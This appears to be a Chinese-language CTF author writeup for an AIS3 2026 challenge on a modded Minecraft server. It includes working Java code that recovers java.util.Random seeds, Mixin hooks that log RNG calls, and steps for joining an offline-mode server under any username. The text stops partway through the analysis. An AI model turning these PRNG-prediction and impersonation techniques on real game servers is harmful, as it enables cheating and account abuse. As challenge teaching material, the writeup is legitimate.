+++
Title = "AIS3 2026 pre-exam Author Writeup"
Date = "2026-07-01 00:00:00 +0800 CST"
Description = ""
Tags = ["CTF", "Author Writeup"]
Categories = ["CTF"]
menu = "main"
+++

## 前言

我在去年就用完我能去 AIS3 的額度了，今年回饋一下母校（？）在 pre-exam 出了兩題 misc 題。

雖然今年 pre-exam 的題目被參賽者們的 LLM 全數爆破，但我的兩題都成功保持著與預期難度相符的 500 與 491 分，所以某種程度上來講還是保留著一些鑑別度？

## アッシェンテ！

Tags: `misc`, `hard`\
Solves: 5/329\
Score: 500/500\
**白箱**

> 現在開始確認盟約內容：\
> 賭上帳號被永久封鎖的風險，\
> 只要集滿八顆鑽石即遊戲勝利\
> 以上，向盟約宣示！

這題是一個用 [NeoForged](https://neoforged.net/) 和 [Mixin](https://github.com/SpongePowered/Mixin) 修改過行為的 Minecraft 模組伺服器，有提供原始碼，預期參賽者需要用相同的方法寫一些 Java 來 Hook Minecraft Client 的某些 Function call，破解並預測 Minecraft 的 PRNG。

Minecraft 有套知名的[種子碼](https://minecraft.wiki/w/World_seed)系統，當我們在同一個版本的 Minecraft 用同一個種子碼創造世界的時候，世界的地形、礦物、建築等等與世界生成相關的東西都會幾乎一模一樣。Minecraft 在創建世界時玩家可以填入一個數字或字串，Minecraft 會把這東西雜湊成 32-bits 的整數。

本 Writeup 會有 Minecraft 的原始碼，若不同意 Minecraft 的 [EULA](https://www.minecraft.net/en-us/eula) 請不要繼續閱讀 ~~（微軟不要告我）~~。

### 預期知識

- 鵝卵石製造機：Minecraft 中當流動的岩漿碰到水方塊時會變成鵝卵石。
- SpongePowered Mixin：一個用來對 Java bytecode 進行修改的工具，可以用來存取 private 或 protected 的 field 或 method，或是在某個 method 的開頭、結尾或特定位置修改傳入傳出值、取消 function call、插入程式碼，甚至可以覆蓋整個實作。
- Java Method Signature
- Java Threading
- 一款多人遊戲的 Client、Server 溝通方式與架構
- `java.util.Random` 破解

### 設定環境

- 把 Docker Compose 拉起來
  - 開發 Exploit 想要更新 Local 邏輯記得重新 build Docker image
  - 我已經盡量 cache 了但還是要跑很久 :sweat_smile:
- 安裝 [Intellij IDEA](https://www.jetbrains.com/idea/)
- 把 Handout 的 `mod` 資料夾搬到某個地方，用 IDEA 打開
  - 裡面是 Minecraft 的 [NeoForged](https://neoforged.net/) modloader 模組開發的環境
  - Gradle 大約會跑半個小時，它要把 Minecraft 的檔案拉下來，並且把它弄回去成原始碼和加入一些 NeoForged 需要的東西
  - 裡面有完整的伺服器邏輯，也可以直接在裡面開發 Exploit，反正伺服器的行為玩家無法更改
  - 用 Gradle 的 `Tasks/neogradle/runs/runClient` 可以啟動 Minecraft Client
  - 由於伺服器沒有啟動 `online-mode`，此環境可以直接登入伺服器
- 如果你只是想要跟著這份 Writeup 看題目設計的話[這個網站](https://mcsrc.dev/)可以看到 Minecraft 的原始碼

### 觀察

在 `ChalMod.java` 中有玩家死亡或離線就會被封鎖的機制，我們可以先在 Local 端的伺服器把相關的程式碼註解掉，後面再處理這個問題。



登入遊戲伺服器後，會看到一個簡易的空島地圖，上面有一個[發射器](https://zh.minecraft.wiki/w/%E7%99%BC%E5%B0%84%E5%99%A8) 和一個儲物箱。



發射器裡面有八個 TNT 和八個鑽石，從 `mixin/ServerGamePacketListenerImplMixin` 可以看到這個發射器有些特殊的規則：

```java
package dev.iancmd.ais3.chal2026.mixin;

@Mixin(ServerGamePacketListenerImpl.class)
public class ServerGamePacketListenerImplMixin {
    @Shadow
    public ServerPlayer player;

    @Inject(method = "handleContainerClick", at = @At("HEAD"), cancellable = true)
    public void onHandleContainerClick(ServerboundContainerClickPacket packet, CallbackInfo ci) {
        if (this.player.containerMenu instanceof DispenserMenu dispenserMenu) {
            BlockEntity blockEntity = (BlockEntity) dispenserMenu.slots.getFirst().container;
            if (blockEntity.getBlockPos().equals(new BlockPos(0, 4, 3))) {
                ci.cancel();
            }
        }
    }

    @Inject(method = "handlePlayerAction", at = @At("HEAD"), cancellable = true)
    public void onHandlePlayerAction(ServerboundPlayerActionPacket packet, CallbackInfo ci) {
        ServerboundPlayerActionPacket.Action action = packet.getAction();
        if (action == ServerboundPlayerActionPacket.Action.START_DESTROY_BLOCK ||
                action == ServerboundPlayerActionPacket.Action.STOP_DESTROY_BLOCK ||
                action == ServerboundPlayerActionPacket.Action.ABORT_DESTROY_BLOCK) {
            BlockPos pos = packet.getPos();
            if (pos.equals(new BlockPos(0, 4, 3))) {
                ci.cancel();
            }
        }
    }
}
```

可以看到，當 Minecraft 伺服器在處理玩家送過來的封包的時候，`ServerGamePacketListenerImpl` 這個 class 中 `handleContainerClick` 和 `handlePlayerAction` 兩個 handler function 在執行前都會被我們的 Mixin 攔截，玩家與座標 (0, 4, 3) 的方塊的互動都會被取消，進遊戲看這個座標放的正是題目中的發射器。

另外，TNT 爆炸時的行為也被修改，只要 TNT 爆炸了，伺服器就會強制玩家受到 `Float.MAX_VALUE` 的爆炸傷害，並強制殺死玩家。

```java
package dev.iancmd.ais3.chal2026.mixin;

@Mixin(PrimedTnt.class)
public abstract class PrimedTntMixin extends Entity {
    public PrimedTntMixin(EntityType<?> entityType, Level level) {
        super(entityType, level);
    }

    @Inject(method = "explode", at = @At("HEAD"))
    void onExplode(CallbackInfo ci) {
        if (level().isClientSide()) return;
        ServerLevel level = (ServerLevel) level();
        Player player = level.getNearestPlayer(0.0d, 0.0d, 0.0d, Double.MAX_VALUE, false);
        try {
            player.invulnerableTime = 0;
            boolean result = player.hurtServer(level, level.damageSources().explosion(player, player), Float.MAX_VALUE);
            ChalMod.LOGGER.info("ServerLevel {} tried to damage player with explosion, result: {}", level.dimension(), result);
            // Failsafe
            player.kill(level);
        } catch (NullPointerException e) {
            ChalMod.LOGGER.error("ServerLevel {} tried to kill player, but no player was found!", level.dimension());
        }
    }
}
```

最後，儲物箱中有以下物品：


### Java PRNG

要講解這題之前，我們要先來看一下 Java 是如何產生亂數的。眾所周知，電腦並沒有能力產生真正的「亂數」，程式設計師們只能用一些特殊的演算法，讓電腦產生出看起來像是亂數的數字，這些演算法也被叫做 [Pseudorandom number generator，偽隨機數生成器](https://zh.wikipedia.org/wiki/偽隨機數生成器)。

翻開 Java 的 `Math.random()` 函式[文件](<https://docs.oracle.com/en/java/javase/26/docs/api/java.base/java/lang/Math.html#random()>)，可以看到 Java 在第一次呼叫這個函式的時候會 `new java.util.Random()`，後面的呼叫都會使用這個 Instance 來產生亂數。而在 `java.util.Random` 的[文件](https://docs.oracle.com/en/java/javase/26/docs/api/java.base/java/util/Random.html)有提到：

> An instance of this class is used to generate a stream of pseudorandom numbers; its period is only 2^48^. The class uses a 48-bit seed, which is modified using a linear congruential formula. (See Donald E. Knuth, The Art of Computer Programming, Volume 2, Third edition: Seminumerical Algorithms, Section 3.2.1.)

Java 所使用的 PRNG 演算法是 [Linear congruential generator，線性同餘方法](https://en.wikipedia.org/wiki/Linear_congruential_generator)，它的演算法如下：

X~n+1~ = (multiplier \* X~n~ + addend) mod mask

其中 Java 所使用的 multiplier = 25214903917，addend = 11，mask = 2^48^，相關程式碼整理（砍掉 thread safety）後如下：

```java
protected int next(int bits) {
    seed = (seed * multiplier + addend) & (mask - 1);
    return (int)(seed >>> (48 - bits));
}

public int nextInt() {
    return next(32);
}
```

以 `nextInt()` 函式會取 32 個 bits 的亂數為例，Java 會將上一個狀態的 seed 乘上 multiplier 再加上 addend，然後用 mask 取 lower-48 bits 寫回 seed 變數，最後取 seed 的 upper 32-bit 當作這次的亂數回傳。

問題在於，當我們連續呼叫了兩次 `nextInt()`，得到兩個 32-bit 後，就可以把第一個亂數當作 seed 的 upper 32-bit，然後枚舉所有可能的 lower-16 bits，當我們發現某個 seed 組合生出來的亂數與第二個亂數相同時，我們就可以知道這個 seed 的值。另外，Java 在設定 seed 時會把 seed 與 multiplier 做 XOR，算出來正確的 seed 後要再做一次 XOR 才能得到正確的 seed。

```java
import java.util.Random;

public class CrackRandom {
    static long MULTIPLIER = 0x5DEECE66DL;
    static long ADDEND = 0xBL;
    static long MASK = (1L << 48) - 1;

    public static Long crackSeed(int firstNextInt, int secondNextInt) {
        long upper32 = Integer.toUnsignedLong(firstNextInt);

        for (int lower16 = 0; lower16 < (1 << 16); lower16++) {
            long seed1 = (upper32 << 16) | lower16;
            long seed2 = (seed1 * MULTIPLIER + ADDEND) & MASK;

            if ((int) (seed2 >>> 16) == secondNextInt)
                return seed2 ^ MULTIPLIER;
        }

        return null;
    }

    public static void main(String[] args) {

        Random targetRandom = new Random(1145141919810L);

        int first = targetRandom.nextInt();
        int second = targetRandom.nextInt();

        System.out.println("First random: " + first);
        System.out.println("Second random: " + second);

        Long seed = crackSeed(first, second);

        Random crackedRandom = new Random(seed);

        System.out.println("Predicted next nextInt(): " + crackedRandom.nextInt());
        System.out.println("Actual next nextInt(): " + targetRandom.nextInt());
    }
}
```

這段程式的執行結果如下：

```bash
$ java CrackRandom.java
First random: -854841901
Second random: 1899848653
Predicted next nextInt(): 82228586
Actual next nextInt(): 82228586
```

可以看到，我們成功預測了下一次 `nextInt()` 的結果。至於其它的亂數函式，都是用類似的方法去計算，像是 `nextDouble()` 的實作如下：

```java
public double nextDouble() {
    return (((long)(next(26)) << 27) + next(27)) * (1.0 / (1L << 53));
}
```

我們只要拿到一個完整的 `nextDouble()` 結果，就能把 upper-26 bits 拿出來，枚舉剩下的 22 bits。

想要了解更多如何破解 LCG 的細節可以參考由 [James Roper 寫的這一系列文章](https://jazzy.id.au/2010/09/20/cracking_random_number_generators_part_1.html)。另外，參賽者們的 Agent 解開這題全都直接用 [LLL](https://en.wikipedia.org/wiki/Lenstra%E2%80%93Lenstra%E2%80%93Lov%C3%A1sz_lattice_basis_reduction_algorithm) 砸，因為上述的方法需要每一個 bit 都完美的被觀測，而 LLL 的複雜度高很多但可以容忍一些誤差，導致 Agent 們都從一些奇怪的地方觀測些髒髒的亂數，直接丟進 LLL 暴力破解。

### 繞過封鎖機制

題目中的伺服器並沒有啟動 [`online-mode`](https://minecraft.wiki/w/Server.properties#Keys)，會接受沒有與 Mojang 伺服器進行過驗證的 session，只要在 `build.gradle` 中把 `runs.client` 修改如下：

```gradle
client {
    systemProperty 'neoforge.enabledGameTestNamespaces', project.mod_id
    arguments.addAll '--username', 'ianiiaannn'
}
```

Gradle 就會在 Client 時加入[參數](https://minecraft.wiki/w/Java_Edition_client_command_line_arguments)。

另外一種辦法是讀 `ChallengeInstancer` 的扣，發現伺服器會把遊戲存檔底下的 `template/` 資料夾複製到 `chalmod/chal-<玩家 UUID>`，那我們可以先創造一個超平坦世界，把整個 `template/` 拉到世界的存檔（`runs/client/saves`）底下，這樣 `ChallengeInstancer` 裡面的邏輯照樣會啟動，方便我們 Debug。

### 讀扣

#### nextDouble()

Minecraft 的原生 `BitRandomSource#nextDouble()` 長這樣：

```java
default double nextDouble() {
    int i = this.next(26);
    int j = this.next(27);
    long k = ((long)i << 27) + j;
    return k * 1.110223E-16F;
}
```

可以看到，回傳結果前 Minecraft 使用的乘數是一個非常不精確的近似值，而非標準的 (1.0 / (1 << 53))，經過我的測試尾端的大約十幾個 bit 會被喀掉歸零。但是好險（？）在 `BitRandomSourceMixin` 中，模組特別用 Mixin 修改了 `nextDouble()` 的行為

```java
@Inject(method = "nextDouble", at = @At("HEAD"), cancellable = true)
default void nextDouble(CallbackInfoReturnable<Double> cir) {
    int i = this.next(26);
    int j = this.next(27);
    long k = ((long) i << 27) + j;
    cir.setReturnValue(k / (double) (1L << 53));
}
```

#### 找地方 Leak PRNG

首先，我們要來找一個可以從伺服器觀測到完整 `nextDouble()` 的方法。在 Intellij IDEA 中，使用 Ctrl + Shift + F 可以開啟 Find in Files 工具，但裡面有太多函式庫的搜尋結果了。在我的環境中，Minecraft 的原始碼被 Gradle 放到 `neoforge-21.11.37-beta-sources.jar`，我們可以把它設定為搜尋的 scope：



出來的就是乾淨的 Minecraft 原始碼搜尋結果：



出來了上百個結果。我們已知電腦在處理浮點數運算時，進行越多次的運算會有越大的誤差，而我們的方法需要取得每一個 bit 都是完整的亂數結果。當我們用 `nextDouble(),` 作為搜尋條件的時候，會看到一些[粒子效果](https://minecraft.wiki/w/Particles)生成座標相關的呼叫，在 `DispenseItemBehavior` 中，我們有機會拿到乾淨的亂數：

```java
DispenserBlock.registerBehavior(
    Items.POTION,
    new DefaultDispenseItemBehavior() {
...
@Override
public ItemStack execute(BlockSource p_302423_, ItemStack p_123557_) {
...
if (!potioncontents.is(Potions.WATER))
    return this.defaultDispenseItemBehavior.dispense(p_302423_, p_123557_);
if (!serverlevel.getBlockState(target).is(BlockTags.CONVERTABLE_TO_MUD))
    return this.defaultDispenseItemBehavior.dispense(p_302423_, p_123557_);
if (!serverlevel.isClientSide()) {
    for (int i = 0; i < 5; i++) {
        serverlevel.sendParticles(
            ParticleTypes.SPLASH,
            pos.getX() + serverlevel.random.nextDouble(),
            pos.getY() + 1,
            pos.getZ() + serverlevel.random.nextDouble(),
            1,
            0.0,
            0.0,
            0.0,
            1.0
        );
    }
}
```

看語意大致可以猜到，當發射器使用的物品是水瓶，且目標方塊有 `CONVERTABLE_TO_MUD` 標籤（如泥土）時，伺服器會在發射器的位置加上一個亂數生成五個 `SPLASH` 粒子效果。但是發射器是一個方塊而非實體，若我們把發射器放在座標 (0, 0)，`getX()` 回傳的值是乾淨的 0，`nextDouble()` 的值加上 0 並不會造成浮點數錯誤，我們可以在 Client 端收到完整的 64-bit 的亂數，並反過來推算亂數兩次 `next()` 的結果，再用[上面的方法](#java-prng)破解出正確的 state。

#### 發射器選物

在 `DispenserBlockEntity` 中，可以看到發射器選擇要用哪個物品的邏輯，這邊的 `items` 是一個九個元素的 `NonNullList<ItemStack>`，不管發射器裡面剩下多少物品，迴圈都會跑九次，但只有當格子內的 `ItemStack` 有東西的時候，`nextInt()` 才會被呼叫到。另外，這個函式的兩個 caller 傳入的 `RandomSource` 都是 `ServerLevel` 的 `random`。

```java
public int getRandomSlot(RandomSource random) {
    this.unpackLootTable(null);
    int i = -1;
    int j = 1;
    for (int k = 0; k < this.items.size(); k++) {
        if (!this.items.get(k).isEmpty() && random.nextInt(j++) == 0) {
            i = k;
        }
    }
    return i;
}
```

最方便進行 Exploit 的方法是放下另外一個每個格子都有物品的發射器，並且直接呼叫 `getRandomSlot()`，如果出來的結果是 4（也就是鑽石所在的格子）就按下目標發射器，否則按下我們自己的發射器 burn 掉這個 state。

#### 數數 `next()` 被呼叫了幾次

發射器決定要把哪個物品發射出來到物品實際上噴出來這段過程 `next()` 會被呼叫非常多次，我們必須找個方法追蹤每一次呼叫的來源與所使用的 `RandomSource`，才能正確計算當前的 State 給我們的程式模擬。我們這次改用與題目一樣的 Mixin 來插入程式碼，把 `BitRandomSourceMixin` 改成如下的樣子：

```java
package dev.iancmd.ais3.chal2026.mixin;

import dev.iancmd.ais3.chal2026.ChalMod;
import net.minecraft.world.level.levelgen.BitRandomSource;
import org.spongepowered.asm.mixin.Mixin;
import org.spongepowered.asm.mixin.injection.At;
import org.spongepowered.asm.mixin.injection.Inject;
import org.spongepowered.asm.mixin.injection.callback.CallbackInfoReturnable;

@Mixin(BitRandomSource.class)
public interface BitRandomSourceMixin extends BitRandomSource {
    private static String chal$findCaller(StackTraceElement[] stack) {
        for (int i = 3; i < stack.length; i++) {
            StackTraceElement frame = stack[i];

            String cls = frame.getClassName();
            if (cls.startsWith("org.spongepowered.asm.mixin.")
                    || cls.startsWith("java.lang.reflect.")
                    || cls.startsWith("jdk.internal.reflect.")
                    || cls.startsWith("net.minecraft.util.RandomSource")
                    || cls.equals("net.minecraft.world.level.levelgen.BitRandomSource")
                    || cls.equals("net.minecraft.util.Mth")) {
                continue;
            }

            if (cls.equals("net.minecraft.util.Util") && frame.getMethodName().equals("shuffle"))
                continue;
            return chal$formatFrame(frame);
        }
        return "<unknown caller> (" + stack.length + ")";
    }

    private static String chal$formatFrame(StackTraceElement frame) {
        return frame.getClassName() + "#" + frame.getMethodName() + "(" + frame.getFileName() + ":" + frame.getLineNumber() + ")";
    }

    @Inject(method = "nextDouble", at = @At("HEAD"), cancellable = true)
    default void nextDouble(CallbackInfoReturnable<Double> cir) {
        int i = this.next(26);
        int j = this.next(27);
        long k = ((long) i << 27) + j;
        cir.setReturnValue(k / (double) (1L << 53));
        if (!Thread.currentThread().getName().equals("Render thread")) {
            ChalMod.LOGGER.info("nextDouble() called by {}, value = {}", chal$findCaller(Thread.currentThread().getStackTrace()), cir.getReturnValue());
        }
    }

    @Inject(method = "nextInt", at = @At("RETURN"), cancellable = true)
    default int onNextInt(CallbackInfoReturnable<Integer> cir) {
        if (!Thread.currentThread().getName().equals("Render thread"))
            ChalMod.LOGGER.info("nextInt() called by {}, value = {}", chal$findCaller(Thread.currentThread().getStackTrace()), cir.getReturnValue());
        return cir.getReturnValue();
    }

    @Inject(method = "nextLong", at = @At("RETURN"), cancellable = true)
    default long onNextLong(CallbackInfoReturnable<Long> cir) {
        if (!Thread.currentThread().getName().equals("Render thread"))
            ChalMod.LOGGER.info("nextLong() called by {}, value = {}", chal$findCaller(Thread.currentThread().getStackTrace()), cir.getReturnValue());
        return cir.getReturnValue();
    }

    @Inject(method = "nextBoolean", at = @At("RETURN"), cancellable = true)
    default boolean onNextBoolean(CallbackInfoReturnable<Boolean> cir) {
        if (!Thread.currentThread().getName().equals("Render thread"))
            ChalMod.LOGGER.info("nextBoolean() called by {}, value = {}", chal$findCaller(Thread.currentThread().getStackTrace()), cir.getReturnValue());
        return cir.getReturnValue();
    }

    @Inject(method = "nextFloat", at = @At("RETURN"), cancellable = true)
    default float onNextFloat(CallbackInfoReturnable<Float> cir) {
        if (!Thread.currentThread().getName().equals("Render thread"))
            ChalMod.LOGGER.info("nextFloat() called by {}, value = {}", chal$findCaller(Thread.currentThread().getStackTrace()), cir.getReturnValue());
        return cir.getReturnValue();
    }
}
```

發射器的 `getRandomSlot()` 用的 Class 是 `LegacyRandomSource`，它 implements `BitRandomSource` 但 Mixin 覺得他們是兩回事又不讓我 hook `nextInt()`，我們只能把它的成員 `next` hook 走，後面再把重複的 Log 清掉。

```java
@Mixin(LegacyRandomSource.class)
public class LegacyRandomSourceMixin {
    public LegacyRandomSourceMixin(long seed) {
        super();
    }

    private static String chal$findCaller(StackTraceElement[] stack) {
        for (int i = 3; i < stack.length; i++) {
            StackTraceElement frame = stack[i];

            String cls = frame.getClassName();
            if (cls.startsWith("org.spongepowered.asm.mixin.")
                    || cls.startsWith("java.lang.reflect.")
                    || cls.startsWith("jdk.internal.reflect.")
                    || cls.equals("net.minecraft.world.level.levelgen.BitRandomSource")) {
                continue;
            }

            if (cls.equals("net.minecraft.util.Util") && frame.getMethodName().equals("shuffle"))
                continue;
            return chal$formatFrame(frame);
        }
        return "<unknown caller> (" + stack.length + ")";
    }

    private static String chal$formatFrame(StackTraceElement frame) {
        return frame.getClassName() + "#" + frame.getMethodName() + "(" + frame.getFileName() + ":" + frame.getLineNumber() + ")";
    }

    @Inject(method = "next(I)I", at = @At("RETURN"))
    public void onNext(int p_188581_, CallbackInfoReturnable<Integer> cir) {
        if (Thread.currentThread().getName().equals("Render thread")) return;
        ChalMod.LOGGER.info("next() called by {}, value = {}", chal$findCaller(Thread.currentThread().getStackTrace()), cir.getReturnValue());
    }
}
```

當這些 `next` 函式被呼叫，Mixin 會幫我們把我們寫的程式碼插到函式的結尾，而我們這邊設定如果不在 Render thread 上（不然會記錄到畫面表現需要的大量亂數呼叫）就用 `StackTraceElement` 一個一個往上找 caller。

```log
next() called by net.minecraft.world.level.block.entity.DispenserBlockEntity#getRandomSlot(DispenserBlockEntity.java:40), value = 1936001358
next() called by net.minecraft.world.level.block.entity.DispenserBlockEntity#getRandomSlot(DispenserBlockEntity.java:40), value = 544920357
next() called by net.minecraft.world.level.block.entity.DispenserBlockEntity#getRandomSlot(DispenserBlockEntity.java:40), value = 944820280
next() called by net.minecraft.world.level.block.entity.DispenserBlockEntity#getRandomSlot(DispenserBlockEntity.java:40), value = 689921904
next() called by net.minecraft.world.level.block.entity.DispenserBlockEntity#getRandomSlot(DispenserBlockEntity.java:40), value = 2076839156
next() called by net.minecraft.world.level.block.entity.DispenserBlockEntity#getRandomSlot(DispenserBlockEntity.java:40), value = 1395324536
next() called by net.minecraft.world.level.block.entity.DispenserBlockEntity#getRandomSlot(DispenserBlockEntity.java:40), value = 616032747
next() called by net.minecraft.world.level.block.entity.DispenserBlockEntity#getRandomSlot(DispenserBlockEntity.java:40), value = 702796771
next() called by net.minecraft.world.level.block.entity.DispenserBlockEntity#getRandomSlot(DispenserBlockEntity.java:40), value = 691267292
next() called by net.minecraft.world.entity.item.ItemEntity#<init>(ItemEntity.java:65), value = 43922562
next() called by net.minecraft.world.entity.item.ItemEntity#<init>(ItemEntity.java:65), value = 106326046
nextDouble() called by net.minecraft.world.entity.item.ItemEntity#<init>(ItemEntity.java:65), value = 0.6544971882133301
next() called by net.minecraft.world.entity.item.ItemEntity#<init>(ItemEntity.java:65), value = 19175568
next() called by net.minecraft.world.entity.item.ItemEntity#<init>(ItemEntity.java:65), value = 111745367
nextDouble() called by net.minecraft.world.entity.item.ItemEntity#<init>(ItemEntity.java:65), value = 0.28573824215781485
next() called by net.minecraft.util.Mth#createInsecureUUID(Mth.java:433), value = -1312854557
next() called by net.minecraft.util.Mth#createInsecureUUID(Mth.java:433), value = 375475919
nextLong() called by net.minecraft.world.entity.Entity#<init>(Entity.java:268), value = -5638667386344091953
next() called by net.minecraft.util.Mth#createInsecureUUID(Mth.java:434), value = -581625151
next() called by net.minecraft.util.Mth#createInsecureUUID(Mth.java:434), value = 1326095951
nextLong() called by net.minecraft.world.entity.Entity#<init>(Entity.java:268), value = -2498061000749965745
next() called by net.minecraft.world.entity.item.ItemEntity#<init>(ItemEntity.java:53), value = 3099629
nextFloat() called by net.minecraft.world.entity.item.ItemEntity#<init>(ItemEntity.java:53), value = 0.18475229
next() called by net.minecraft.world.entity.item.ItemEntity#<init>(ItemEntity.java:61), value = 9147913
nextFloat() called by net.minecraft.world.entity.item.ItemEntity#<init>(ItemEntity.java:61), value = 0.5452581
next() called by net.minecraft.core.dispenser.DefaultDispenseItemBehavior#spawnItem(DefaultDispenseItemBehavior.java:40), value = 18010112
next() called by net.minecraft.core.dispenser.DefaultDispenseItemBehavior#spawnItem(DefaultDispenseItemBehavior.java:40), value = 40468075
nextDouble() called by net.minecraft.core.dispenser.DefaultDispenseItemBehavior#spawnItem(DefaultDispenseItemBehavior.java:40), value = 0.26837158652410886
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 13499841
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 74423407
nextDouble() called by net.minecraft.core.dispenser.DefaultDispenseItemBehavior#spawnItem(DefaultDispenseItemBehavior.java:42), value = 0.20116331509497154
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 45517190
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 118722426
nextDouble() called by net.minecraft.core.dispenser.DefaultDispenseItemBehavior#spawnItem(DefaultDispenseItemBehavior.java:42), value = 0.6782589984618277
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 58061701
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 44484782
nextDouble() called by net.minecraft.core.dispenser.DefaultDispenseItemBehavior#spawnItem(DefaultDispenseItemBehavior.java:43), value = 0.8651867707287886
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 45691233
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 37780387
nextDouble() called by net.minecraft.core.dispenser.DefaultDispenseItemBehavior#spawnItem(DefaultDispenseItemBehavior.java:43), value = 0.680852432273117
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 36821795
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 111523704
nextDouble() called by net.minecraft.core.dispenser.DefaultDispenseItemBehavior#spawnItem(DefaultDispenseItemBehavior.java:44), value = 0.5486875151234321
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 53944054
next() called by net.minecraft.util.RandomSource#triangle(RandomSource.java:63), value = 26877188
nextDouble() called by net.minecraft.core.dispenser.DefaultDispenseItemBehavior#spawnItem(DefaultDispenseItemBehavior.java:44), value = 0.8038290470875897
```

這樣直接去 hook Function 看被誰呼叫的方式可以讓我們省去很多時間追蹤 Minecraft 裡面複雜的繼承關係。

所以我們的 `next()` 總共被 Minecraft 呼叫了 33 次嗎？


追蹤 Java 噴出來的 Class 後，發現以上操作會觸發下列這些事情：

